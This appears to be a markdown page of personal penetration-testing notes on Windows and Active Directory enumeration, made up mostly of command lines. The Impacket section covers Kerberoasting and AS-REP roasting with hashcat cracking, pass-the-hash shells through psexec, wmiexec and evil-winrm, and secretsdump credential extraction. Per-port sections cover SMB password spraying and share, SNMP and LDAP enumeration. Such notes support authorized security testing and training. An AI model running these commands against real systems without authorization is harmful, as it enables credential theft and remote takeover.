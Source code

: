```yaml
---
title: 3. Enumeration
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Enumeration
toc: true
---
```


---
Step 3 in a penetration test: Enumeration.
Try to find relevant info to enter the target machine.

---
<!-- more -->

## Active Directory

### Impacket scripts

#### GetADUsers.py
  - gather data about the domain's users and their corresponding email addresses
```bash
GetADUsers.py -all $domain/$username -dc-ip $IP
```

<br>

#### GetUserSPNs.py
  - fetch Service Principal Names that are associated with normal user accounts
  - give a ticket encrypted with the user account's password that we can crack.

```bash 
GetUserSPNs.py -request -dc-ip $IP $domain/$user -save -outputfile GetUserSPNs.out
```
```bash Crack krb5tgs ticket
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

<br>

#### GetNPUsers.py
  - retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords

```bash
python3 GetNPUsers.py $domain/ -dc-ip $IP -usersfile users.txt -format hashcat -outputfile hashes.txt
```

<br>

#### PSExec.py
  - psexec like functionality; shell on the Windows host

```bash
psexec.py $domain/$user:$pass@$IP

psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip $IP administrator@$IP
```

<br>

#### WMIexec.py
  - execute commands through WMI, similar to `smbexec.py`
  - runs under user (must be Admin) and is not noisy (as smbexec.py)
  - drawback: needs DCOM - access to DCOM ports

```bash
wmiexec.py 'administrator:$pass@$IP'

wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip $IP administrator@$IP
```

<br>

#### Secretsdump.py
 - dump hashes from the remote machine
 - for SAM and LSA Secrets (including cached creds) read as much from the hives
 - from NTDS.dit extract domain users, hashes, kerberos keys

```bash
# mounted Share in Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

<br>

#### MsSQLclient.py
- authenticate and run commands in a MSSQL server

```bash 
mssqlclient.py $user:'$pass'@$IP -windows-auth
```

<br>





## Services by ports

### Port 139/TCP,445/TCP - SMB
```bash
enum4linux -a $IP
```
```bash
# recursively list all files in available shares
smbmap -H $IP -R

smbmap -H $IP -d $domain -u "$user" -p "$pass"
```
```bash
# connect to share without a password
smbclient //$IP/Share_name -U ""%""

# connect to share with username and password
smbclient //$IP/Share_name -U $domain\\$user%$pass
```
```bash
crackmapexec smb $IP -u users -p users --continue-on-success
```

<br>

### Port 139/TCP,445/TCP - NetBIOS,SMB
```bash Authenticate with Impacket script - mssqlclient
mssqlclient.py $user:'$pass'@$IP -windows-auth
```

<br>

### Port 161/UDP - SNMP
Normal enumeration
```bash
snmpwalk -v 2c -c public $IP
```
Enable MIB support - translate OIDs (Object Identifiers)
> comment out the only uncommented line to use the mibs
```bash
sudo apt install snmp-mibs-downloader
sudo nano /etc/snmp/snmp.conf
```

```bash hrSWRunTable: Retrieves detailed information about all running processes
snmpwalk -v 2c -c public $IP hrSWRunTable
# included information:
#   - hrSWRunIndex: Unique index for each running process.
#   - hrSWRunName: Name of each running process.
#   - hrSWRunID: Unique ID of the process.
#   - hrSWRunPath: Full path to the executable file of the process.
#   - hrSWRunParameters: Command-line parameters used to start the process.
#   - hrSWRunType: Type of process (e.g., application, system).
```

<br>

### Port 389/TCP,UDP - LDAP
```bash
ldapsearch -x -h $IP -s base namingcontexts
# -x              simple auth
# -s base         set the scope base
# namingcontext   return naming contexts

ldapsearch -x -h $IP -b 'DC=$domain,DC=LOCAL'
```

<br>

### Port 5985/TCP,5986/TCP - WinRM
```bash
crackmapexec winrm $IP -u $user -p '$pass'
```
```bash
evil-winrm -i $IP -u $user -p '$pass'

evil-winrm -i $IP -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```

<br>

---
---